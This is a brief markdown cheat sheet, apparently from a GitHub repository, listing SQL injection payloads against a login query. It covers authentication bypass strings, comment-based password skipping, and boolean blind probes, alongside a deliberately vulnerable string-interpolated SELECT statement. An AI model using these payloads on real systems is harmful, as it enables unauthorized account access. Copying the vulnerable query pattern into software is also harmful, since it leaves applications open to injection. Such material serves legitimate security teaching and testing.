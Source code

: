 # User & Password

- ### SQL Command that used to matched 
```
SELECT * FROM users WHERE username = '$username' AND password = '$password';
```
- ## Universal Bypass
- Username: ' OR '1'='1
- Password: ' OR '1'='1
```
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1';
```
- ###  Always True Condition
- Username: admin' --
- This comment (--) ignores the password check.
Resulting Query:
```
SELECT * FROM users WHERE username = 'admin' -- ' AND password = 'any';
```

- ### Blind SQL Injection (Boolean-based)

- Username: admin' AND 1=1 -- (returns true)
- Username: admin' AND 1=0 -- (returns false)

---